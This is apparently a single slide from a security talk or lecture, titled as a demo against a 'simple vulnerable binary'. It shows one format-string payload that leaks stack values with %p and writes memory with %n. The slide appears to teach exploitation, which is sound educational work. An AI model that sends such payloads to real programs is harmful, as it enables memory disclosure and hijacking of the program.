

# Let’s do a demo
Simple vulnerable binary

Input string:
ABCDABCD%p.%p.%262$p.%4$n